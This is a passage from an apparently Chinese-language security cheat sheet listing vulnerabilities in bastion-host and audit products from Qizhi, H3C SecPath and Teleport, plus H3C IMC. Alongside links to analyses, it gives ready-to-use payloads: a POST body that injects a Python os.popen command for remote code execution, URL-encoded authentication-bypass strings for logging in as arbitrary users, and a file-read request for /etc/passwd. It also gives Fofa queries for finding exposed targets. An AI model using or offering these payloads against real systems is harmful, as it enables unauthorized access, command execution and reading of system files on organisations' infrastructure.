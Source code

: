 - **CNVD-2019-20835 齐治堡垒机前台远程命令执行漏洞**
    - [齐治堡垒机前台远程命令执行漏洞（CNVD-2019-20835）分析](https://www.cnblogs.com/StudyCat/p/11256944.html)

- **CNVD-2019-17294 齐治堡垒机后台存在命令执行漏洞**
    - [齐治堡垒机后台存在命令执行漏洞（CNVD-2019-17294）分析](https://www.cnblogs.com/StudyCat/p/11197986.html)

- **远程代码执行**
    - POC | Payload | exp
        ```
        POST /shterm/listener/tui_update.php

        a=["t';import os;os.popen('whoami')#"]
        ```

- **任意用户登录漏洞**
    - POC | Payload | exp
        ```
        /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
        ```

**H3C SecParh**

> Fofa: app="H3C-SecPath-运维审计系统" && body="2018"

- **get_detail_view.php 任意用户登录漏洞**
    - POC | Payload | exp
        ```
        /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
        ```

**teleport 开源堡垒机**

> fofa: app="TELEPORT堡垒机"

- **相关文章**
    - [teleport堡垒机审计学习](https://r0fus0d.blog.ffffffff0x.com/post/teleport_case/)
    - [某开源堡垒机历史漏洞分析](https://xz.aliyun.com/t/11721)

- **任意用户登录漏洞**
    - POC | Payload | exp
        - [teleport 堡垒机任意用户登录漏洞](https://www.o2oxy.cn/4132.html)
        - [针对某堡垒机漏洞分析（一）](https://forum.butian.net/share/1865)

- **后台文件读取**
    - POC | Payload | exp
        ```
        /audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&amp;offset=0
        ```

### IMC

**H3C IMC智能管理中心**
- **远程代码执行**
    - [H3C IMC智能管理中心漏洞复现](https://mp.weixin.qq.com/s/Dqk1WB5ABoM5jOgq_vlnPw)

---